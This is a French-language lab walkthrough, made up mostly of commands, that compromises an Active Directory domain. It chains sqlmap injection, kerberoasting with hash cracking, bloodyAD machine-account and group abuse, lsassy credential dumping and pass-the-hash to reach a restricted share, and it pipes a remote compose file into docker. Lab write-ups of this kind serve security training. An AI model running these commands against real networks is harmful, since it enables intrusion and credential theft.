 Tout d'abord pour demader le vpn 
sudo openvpn --config akil.ovpn
sudo route -n add -net 192.168.40.0/24 -interface utun3


Ensuite voici a quoi ressemble mon /etc/hosts
![Capture d’écran 2024-11-14 à 16 00 35](https://github.com/user-attachments/assets/09392315-4757-494f-98ab-cc74ef0e38c4)

Ensuite, en faisant un sqlmap, on trouve:
sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --schema --batch
![Capture d’écran 2024-11-14 à 16 03 56](https://github.com/user-attachments/assets/35b4f2ff-e3df-47bf-9a11-eeb170d514d1)

sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --dump -T users --batch
![Capture d’écran 2024-11-14 à 16 04 11](https://github.com/user-attachments/assets/69f89746-4eb2-400b-9b2c-95bbfe82187d)

Ici, il a reussi a trouver le mot de passe d'alice seulement (p@ssword)

ensuite on fait un kerberoasting:
nxc ldap 192.168.40.127 -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --kerberoasting kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 05 41](https://github.com/user-attachments/assets/18a9f071-ea3f-4912-8ce9-0898fb7fd9ff)
on peut voir que ce hash correspond au svc_src.

et grace au haschat on a:
hashcat -m 13100 -a 0 kerberoasting.txt passwords.txt 
![Capture d’écran 2024-11-14 à 16 06 30](https://github.com/user-attachments/assets/78dff516-e728-4e94-b740-ad684e7d4bea)

On peut aussi le faire avec John The Ripper:
john --format=krb5tgs --wordlist=passwords.txt kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 07 07](https://github.com/user-attachments/assets/5c67de6d-ce53-4c7e-8c75-ed773514a771)

le mot de passe de svc_srv est finalement qwerty123

On observe ensuite les droit d'avec d'Alice:
nxc smb DC01.VULN.LAB -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --dns-server 192.168.40.127 --shares
![Capture d’écran 2024-11-14 à 16 07 49](https://github.com/user-attachments/assets/f41a0246-073b-4d76-9d7f-fdb8e5f12b27)
Malheureusement ce qui nous interrese c'est le CurriculumVitae et alice n'a pas acces.
Grace a alice, on va crée un user qu'on a appeller akil:
bloodyAD -u Alice.mice -p 'p@ssword' -d vuln.lab --host vuln.lab --dc-ip 192.168.40.127 add computer akil 'Password!'
![Capture d’écran 2024-11-14 à 16 22 31](https://github.com/user-attachments/assets/0449e44f-cec3-4329-9dae-79f16989f45a)

Pour se connecter au BloodHound:

bloodhound-python -c All -u 'Alice.mice' -p 'p@ssword' -d vuln.lab -ns 192.168.40.127
curl -L https://ghst.ly/getbhce | sudo docker compose -f - up

et ensuite se connecter via ce lien:
http://127.0.0.1:8080/ui/explore
et upload les fichiers .json dans l'onglet Administration 



Ensuite grace au svc_srv on ajoute le compte créé au groupe serveur admin:
bloodyAD -u svc_srv -p 'qwerty123' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember server_admins 'akil$'
![Capture d’écran 2024-11-14 à 16 18 53](https://github.com/user-attachments/assets/130f4146-5860-4b89-9b8d-fee75317247d)

on a bien acces au information d'un compte admin:
![Capture d’écran 2024-11-14 à 16 25 48](https://github.com/user-attachments/assets/ddbc54c1-8d21-472d-b924-f6a1cbb659f9)

Ensuite grace a cette commande on a pu avoir acces au mot de passe hasher de srv_neccus en utilisant lsassy:
 nxc smb SRV01.VULN.LAB -u 'akil$' -p 'Password!' -M lsassy
 ![Capture d’écran 2024-11-14 à 16 29 17](https://github.com/user-attachments/assets/387278f6-bb8d-4cc5-af39-159c391a525f)

 une fois qu'on a le hash, onpeut ajouter l'ordi akil au humain ressourse car dans bloodhound on peut voire que svc_neccus est membre de administrative_groups et que celui ci peut ajouter des personnes dans human_resources.
 <img width="1433" alt="Capture d’écran 2024-11-14 à 16 32 51" src="https://github.com/user-attachments/assets/5a76fe09-2541-4a3d-8312-3191dc30c77a">
  bloodyAD -u svc_nessus -p ':e3cddc751fabf3eed53f904d85b1a0ba' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember "human_resources" 'akil$'
  ![Capture d’écran 2024-11-14 à 16 33 32](https://github.com/user-attachments/assets/f639e056-1639-497d-9524-839bd37389b3)

  et donc au final en utilisant cette commande, on a acces au CurriculumVitae:
  nxc smb DC01.VULN.LAB -u 'akil$' -p 'Password!' -d 'vuln.lab' --dns-server 192.168.40.127 --shares 
![Capture d’écran 2024-11-14 à 16 35 17](https://github.com/user-attachments/assets/3956ac70-d6a7-4178-8676-13dca51c6e89)
![Capture d’écran 2024-11-14 à 16 35 53](https://github.com/user-attachments/assets/ecca4a57-8a0c-43f9-beb8-e13a60674b57)


 

 









